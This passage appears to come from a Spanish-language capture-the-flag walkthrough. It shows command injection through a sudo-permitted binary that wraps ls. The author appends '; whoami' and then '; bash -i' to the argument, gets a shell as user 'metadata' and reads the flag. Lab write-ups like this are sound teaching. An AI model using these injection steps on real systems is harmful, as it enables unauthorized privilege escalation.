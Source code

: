 Info:

```
/bin/ls: cannot access 'hola': No such file or directory
```

Vemos que por detras se esta ejecutando un `ls`, probaremos a poner `-la`.

```shell
sudo -u metadata /home/codebad/code '-la'
```

Info:

```
total 44
drwxr-xr-x 3 codebad  codebad   4096 Aug 29 13:22 .
drwxr-xr-x 1 root     root      4096 Aug 29 11:41 ..
-rw------- 1 codebad  codebad      5 Aug 29 13:22 .bash_history
-rw-r--r-- 1 codebad  codebad    220 Aug 29 11:39 .bash_logout
-rw-r--r-- 1 codebad  codebad   3771 Aug 29 11:39 .bashrc
-rw-r--r-- 1 codebad  codebad    807 Aug 29 11:39 .profile
-rwxr-xr-x 1 metadata metadata 16176 Aug 29 12:16 code
drwxr-xr-x 2 root     root      4096 Aug 29 11:49 secret
```

Vemos que funciona, por lo que intentaremos concatenar comandos a ver si funciona.

```shell
sudo -u metadata /home/codebad/code '-la; whoami'
```

Info:

```
total 44
drwxr-xr-x 3 codebad  codebad   4096 Aug 29 13:22 .
drwxr-xr-x 1 root     root      4096 Aug 29 11:41 ..
-rw------- 1 codebad  codebad      5 Aug 29 13:22 .bash_history
-rw-r--r-- 1 codebad  codebad    220 Aug 29 11:39 .bash_logout
-rw-r--r-- 1 codebad  codebad   3771 Aug 29 11:39 .bashrc
-rw-r--r-- 1 codebad  codebad    807 Aug 29 11:39 .profile
-rwxr-xr-x 1 metadata metadata 16176 Aug 29 12:16 code
drwxr-xr-x 2 root     root      4096 Aug 29 11:49 secret
metadata
```

Vemos que funciona por lo que obtendremos una shell del usuario `metadata` de la siguiente forma.

```shell
sudo -u metadata /home/codebad/code '-la; bash -i'
```

Y si ahora hacemos `whoami`.

```shell
metadata
```

Veremos que somos el usuario `metadata` por lo que leeremos la flag.
